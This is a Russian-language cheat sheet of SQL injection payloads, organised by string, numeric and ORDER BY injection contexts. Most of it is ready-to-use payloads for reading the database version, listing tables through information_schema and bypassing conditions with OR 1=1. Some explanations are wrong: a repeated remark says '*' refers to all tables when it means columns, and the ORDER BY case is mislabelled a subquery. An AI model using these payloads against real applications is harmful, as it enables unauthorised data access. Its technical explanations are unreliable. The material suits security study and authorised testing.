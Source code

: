 ### Строковый контекст

- **Пример уязвимого запроса:**
```
SELECT * FROM users WHERE username = 'input';
```
Здесь `input` — строка, обрамленная кавычками.

- **Payload для вывода версии БД:**
```
' UNION SELECT @@version, NULL -- 
```
- `NULL` может понадобиться больше так как `*` указывает на все таблицы и мы должны тоже количество предоставить.

- **Payload для вывода всех таблиц:**
```
    ' UNION SELECT table_name, NULL FROM information_schema.tables -- 
```
- `NULL` может понадобиться больше так как `*` указывает на все таблицы и мы должны тоже количество предоставить.

- **Payload с использованием `AND`/`OR`:**
```
' OR 1=1 -- 
```
- Возвращает все строки, так как условие `1=1` всегда истинно.


---

### Числовой контекст

- **Пример уязвимого запроса:**
```
SELECT * FROM users WHERE id = input;
```
Здесь `input` — число, кавычки не используются.

- **Payload для вывода версии БД:**
```
1 UNION SELECT @@version, NULL -- 
```
- `1` — корректное значение для числового контекста.
- `UNION SELECT` добавляет второй запрос.
- `NULL` может понадобиться больше так как `*` указывает на все таблицы и мы должны тоже количество предоставить.

- **Payload для вывода всех таблиц:**
```
1 UNION SELECT table_name, NULL FROM information_schema.tables -- 
```
- `NULL` может понадобиться больше так как `*` указывает на все таблицы и мы должны тоже количество предоставить.

- **Payload с использованием `AND`/`OR`:**
```
1 OR 1=1 -- 
```
- Возвращает все строки, так как условие `1=1` всегда истинно.


---

### Контекст подзапроса

- **Пример уязвимого запроса:**
```
    SELECT * FROM users ORDER BY input;
```
Здесь `input` используется в подзапросе.

- **Payload для вывода версии БД:**
```
(SELECT @@version) -- 
```
- `(SELECT @@version)` — подзапрос, возвращающий версию БД.

- **Payload для вывода всех таблиц:**    
```
(SELECT table_name FROM information_schema.tables LIMIT 1) -- 
```
- Возвращает первую таблицу из списка.


---
